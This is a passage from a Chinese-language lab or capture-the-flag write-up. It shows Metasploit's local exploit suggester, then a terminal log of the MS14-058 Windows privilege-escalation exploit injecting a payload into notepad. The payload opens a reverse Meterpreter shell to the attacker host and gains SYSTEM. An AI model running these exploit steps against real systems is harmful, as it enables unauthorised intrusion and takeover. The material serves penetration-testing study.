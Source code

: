 ![截图](a27c490eca93468841d395517066cc3e.png)

> 这里利用use post/multi/recon/local_exploit_suggester，这个是Metasploit中使用本地漏洞利用检查来检查系统是否存在本地漏洞，就和漏扫脚本差不多，很好的一个脚本。这里发现了7个成功率高的漏洞，都是可以成功的，利用就行。

## 尝试MS14-058

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_058_track_popup_menu
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
session => 3                                 
msf5 exploit(windows/local/ms14_058_track_popup_menu) > run

[*] Started reverse TCP handler on 10.10.14.14:4444
[*] Launching notepad to host the exploit...
[+] Process 2304 launched.
[*] Reflectively injecting the exploit DLL into 2304...
[*] Injecting exploit into 2304...
[*] Exploit injected. Injecting payload into 2304...
[*] Payload injected. Executing exploit...        
[*] Sending stage (179779 bytes) to 10.10.10.15
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 4 opened (10.10.14.14:4444 -> 10.10.10.15:1044) at 2019-03-06 17:20:47 -0500
   
meterpreter > getuid            
Server username: NT AUTHORITY\SYSTEM
```